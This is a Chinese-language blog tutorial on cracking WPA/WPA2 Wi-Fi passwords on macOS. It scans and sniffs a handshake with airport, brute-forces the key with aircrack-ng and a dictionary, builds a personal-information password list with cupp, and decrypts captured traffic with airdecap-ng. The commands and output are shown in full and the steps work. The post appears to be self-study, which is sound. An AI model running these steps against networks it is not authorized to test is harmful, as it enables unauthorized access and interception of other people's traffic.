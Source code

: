 ```yaml
---
title: MacOS破解WiFi(WPA、WPA2)
categories:
  - Technical
tags:
  - Crack
  - MacOS
date: 2020-02-21 18:52:56	
---
```


2020 年的寒假过得属实弟弟
我在家里默默地刷安全牛的教程，最新刷到了“无线攻击”这一章，虽然在学校的机器上安装了 Kali 虚机，但是没有 Usb 无线网卡。于是用 MacBook 尝试了一下。
PS： 本文参考了网络上众多的文章，但是有我自己发挥的部分。由于现在绝大部分无线网络的加密方法都是 WPA、WPA2，弱点比较大的 WEP 我现在还没碰到过，已经很少使用，而 WPA、WPA2 几乎没有弱点，想要破解只能暴力穷举，理论上只要你的密码设置的足够复杂，就是不可破解的（但谁会把 Wifi 密码设置的这么复杂）

<!-- more -->

## 如何发现附近的网络

这里的发现网络，不是单指如何获得附近有哪些 WiFi，而是**附近有哪些 WiFi，他们分别用的什么加密密钥**。在 Kali 上实现这一点，我们需要使用 airmon-ng 来发现附近的 WiFi，而 MacBook 自带了强大的 airport 工具。

### 使用 airport

为了方便我们使用 airport，先在命令行中执行以下命令：

```bash
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport
```

上述命令让我们可以在命令行直接输入 airport 来使用它。

### 发现附近网络

在命令行输入:

```bash
airport -s
```

得到如下结果：

```bash
Princeling-Mac at /opt ❯ airport -s
                            SSID BSSID             RSSI CHANNEL HT CC SECURITY (auth/unicast/group)
                     FAST_236864 cc:34:29:23:68:64 -81  6,-1    Y  -- WPA(PSK/AES/AES) WPA2(PSK/AES/AES)
                     FAST_20C20A 78:eb:14:20:c2:0a -77  12      Y  -- WPA(PSK/TKIP,AES/TKIP) WPA2(PSK/TKIP,AES/TKIP)
                     FAST_11D9DC c0:61:18:11:d9:dc -59  7       Y  -- WPA(PSK/TKIP,AES/TKIP) WPA2(PSK/TKIP,AES/TKIP)
                        iTV-KtYh 46:7b:bb:b9:c5:d0 -59  9       Y  US WPA(PSK/TKIP,AES/TKIP)
                   ChinaNet-KtYh 44:7b:bb:a9:c5:d0 -59  9       Y  US WPA(PSK/TKIP,AES/TKIP)
```

## 等待握手信号

事实上，我们的暴力穷举不可能是不停的给路由器发送请求，这种做法吃力又不讨好。网络上有很多描述 WPA 破解原理的文章，可以去阅读。简单地说，我们需要侦听到一个用户的正确登录，然后获取登录过程中的两组密钥，之后就可以离线破解了。

### 侦听数据

```bash
airport en0 sniff 7
```

**en0** 是你的无线网卡，这个信息可以通过输入

```bash
ifconfig
```

得到。

如果有很多网卡，选择你用来连接 Wifi 的那个。

**7** 是上文中，发现附近网络的 CHANNEL 列，需要和你想要破解的目标网络一致。

运行该命令的时候，wifi 的图标会发生改变。
![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly91cGxvYWQtaW1hZ2VzLmppYW5zaHUuaW8vdXBsb2FkX2ltYWdlcy8yMTI3MDYyMy00Yjc1MDIxZDBhZTA2YWJkLnBuZw?x-oss-process=image/format,png)
这个时候你的网络连接也会断开，按下 ctrl+c 结束侦听。
![](https://imgconvert.csdnimg.cn/aHR0cHM6Ly91cGxvYWQtaW1hZ2VzLmppYW5zaHUuaW8vdXBsb2FkX2ltYWdlcy8yMTI3MDYyMy1jMjdjMTM5ZTkyMGM1YWU0LnBuZw?x-oss-process=image/format,png)

## 分析数据

不可避免的，还是要安装 airmon-ng

```bash
brew install airmon-ng
```

安装完成后：

```bash
aircrack-ng /tmp/airportSniffLbhZSp.cap
```

```bash
Princeling-Mac at /opt ❯ aircrack-ng /tmp/airportSniffLbhZSp.cap
Opening /tmp/airportSniffLbhZSp.cap
Read 8351 packets.

   #  BSSID              ESSID                     Encryption

   1  C0:61:18:11:D9:DC  FAST_11D9DC               WPA (1 handshake)
   2  CC:34:29:23:68:64  FAST_236864               No data - WEP or WPA

Index number of target network ?
```

在抓包过程中，我用手机登录了一下无线网 FAST_11D9DC。可以看到 airport 已经抓到了一组握手数据。

在“Index number of target network ?”这里输入想要破解的 wifi，由于 2 没有握手数据，所以我们输入 1。

## aircrack 破解

```bash
aircrack-ng -w dict.txt -b c0:61:18:11:d9:dc /tmp/airportSniffLbhZSp.cap
```

**dict.txt** 是字典文件，**c0:61:18:11:d9:dc** 是发现附近网络中的 BSSID，**/tmp/airportSniffLbhZSp.cap**是数据包。

### 字典文件在哪儿？

#### 1. 互联网下载

在网络上有很多人搜集到的 wifi 字典，如果是公共场合，这些字典的命中率还是很高的。但是字典很庞大，暴力穷举需要消耗很长时间。

#### 2. 自己制作

如果是在家庭、私人场合的 WiFi，字典的质量就显得很重要。这里推荐一个社工字典制作程序。可以去 github 搜索 cupp 下载。或者[点击直达](https://github.com/NjtechPrinceling/cupp)

简单演示一下 cupp 的使用。

```zsh
python3 cupp.py -I
```

```bash
Princeling-Mac at ~/Documents/GitHub/cupp ❯ python3 cupp.py -I
 ___________
   cupp.py!                 # Common
      \                     # User
       \   ,__,             # Passwords
        \  (oo)____         # Profiler
           (__)    )\
              ||--|| *      [ Muris Kurgas | j0rgan@remote-exploit.org ]
                            [ Mebus | https://github.com/Mebus/]


[+] Insert the information about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)

> First Name: wanglei
> Surname:
> Nickname: princeling
> Birthdate (DDMMYYYY):


> Partners) name:
> Partners) nickname:
> Partners) birthdate (DDMMYYYY):


> Child's name:
> Child's nickname:
> Child's birthdate (DDMMYYYY):


> Pet's name:
> Company name:


> Do you want to add some key words about the victim? Y/[N]:
> Do you want to add special chars at the end of words? Y/[N]:
> Do you want to add some random numbers at the end of words? Y/[N]:
> Leet mode? (i.e. leet = 1337) Y/[N]:

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to wanglei.txt, counting 68 words.
[+] Now load your pistolero with wanglei.txt and shoot! Good luck!
```

不知道就一路回车下去，填写一些相关信息，就可以生成字典了。

然后用这个字典破解 wifi 内容。

如果你的字典中包含密码，则会出现如下界面：

                              Aircrack-ng 1.5.2

      [00:00:00] 8/1 keys tested (88.65 k/s)

      Time left: 0 seconds                                     800.00%

                         KEY FOUND! [ 88888888 ]


      Master Key     : 26 FB 23 5F FE 0B 39 0A C1 12 F3 30 55 FF EE 02
                       CB 7E EA 13 B0 CE D6 7E BB 7E AA 52 1B EA 2E 02

      Transient Key  : 8D E6 57 44 42 BE 95 C2 EC 75 60 FA CA 1A 1A C1
                       C8 31 46 C4 4D DB 98 4D 34 D7 5A D0 15 9F BD 42
                       6C 9C 96 5C FC AE 24 39 83 1D A8 89 C7 71 F9 4A
                       64 D5 DA FB 24 7E 91 47 E6 35 DD 9A 87 A6 A2 5B

      EAPOL HMAC     : 8D 62 A3 8A 42 D1 68 EA 4B 89 FC FC B6 BC C9 AA

说明破解成功。

## airdecap 分析包

现在我们拿到了密码。但是如果折腾了这么半天，目的就是为了蹭 WiFi，感觉有点呆呆的。

有了 WiFi 的密码，实际上我们可以对 WiFi 的数据包进行解包，工具就是 airdecap。

这个时候再拿出刚刚抓取的数据包，用 wireshark 打开。
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200211165856543.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM5NDk4NzAx,size_16,color_FFFFFF,t_70)
可以看到全都是 802.11 的协议，并且数据帧全都是加密的数据。

在命令行输入：

```bash
airdecap-ng -e FAST_11D9DC -b c0:61:18:11:d9:dc -p 88888888 ./Downloads/11d9dc.cap
```

**e**是 essid，**b**是 bssid，**p**是破解出来的 WiFi 密码。

运行成功后，会在目标目录生成对应的 dec 文件。

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200211165909879.png)
再用 WireShark 打开，就能看到解密后的包内容了。

